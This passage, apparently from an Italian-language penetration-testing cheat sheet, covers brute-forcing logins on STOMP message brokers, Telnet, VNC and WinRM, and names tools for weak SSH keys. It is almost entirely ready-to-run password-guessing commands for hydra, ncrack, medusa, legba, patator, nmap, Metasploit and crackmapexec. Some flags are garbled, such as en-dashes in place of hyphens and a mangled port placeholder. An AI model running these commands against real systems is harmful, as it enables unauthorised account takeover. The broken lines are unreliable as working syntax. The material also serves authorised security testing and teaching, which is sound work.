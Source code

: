 Alcuni sistemi presentano difetti noti nel seme casuale utilizzato per generare materiale crittografico. Questo può portare a uno spazio di chiavi notevolmente ridotto che può essere attaccato con strumenti come [snowdroppe/ssh-keybrute](https://github.com/snowdroppe/ssh-keybrute). Sono disponibili anche set pre-generati di chiavi deboli come [g0tmi1k/debian-ssh](https://github.com/g0tmi1k/debian-ssh).

### STOMP (ActiveMQ, RabbitMQ, HornetQ e OpenMQ)

Il protocollo testuale STOMP è un protocollo di messaggistica ampiamente utilizzato che **consente comunicazioni e interazioni senza soluzione di continuità con i popolari servizi di messaggistica** come RabbitMQ, ActiveMQ, HornetQ e OpenMQ. Fornisce un approccio standardizzato ed efficiente per scambiare messaggi e svolgere varie operazioni di messaggistica.
```bash
legba stomp --target localhost:61613 --username admin --password data/passwords.txt
```
### Telnet
```bash
hydra -l root -P passwords.txt [-t 32] <IP> telnet
ncrack -p 23 --user root -P passwords.txt <IP> [-T 5]
medusa -u root -P 500-worst-passwords.txt -h <IP> -M telnet

legba telnet \
--username admin \
--password wordlists/passwords.txt \
--target localhost:23 \
--telnet-user-prompt "login: " \
--telnet-pass-prompt "Password: " \
--telnet-prompt ":~$ " \
--single-match # this option will stop the program when the first valid pair of credentials will be found, can be used with any plugin
```
### VNC
```bash
hydra -L /root/Desktop/user.txt –P /root/Desktop/pass.txt -s <PORT> <IP> vnc
medusa -h <IP> –u root -P /root/Desktop/pass.txt –M vnc
ncrack -V --user root -P /root/Desktop/pass.txt <IP>:>POR>T
patator vnc_login host=<IP> password=FILE0 0=/root/Desktop/pass.txt –t 1 –x retry:fgep!='Authentication failure' --max-retries 0 –x quit:code=0
use auxiliary/scanner/vnc/vnc_login
nmap -p 5900,5901 --script vnc-brute --script-args brute.credfile=wordlist.txt <IP>
legba vnc --target localhost:5901 --password data/passwords.txt

#Metasploit
use auxiliary/scanner/vnc/vnc_login
set RHOSTS <ip>
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/passwords.lst
```
### Winrm
```bash
crackmapexec winrm <IP> -d <Domain Name> -u usernames.txt -p passwords.txt
```
## Locale
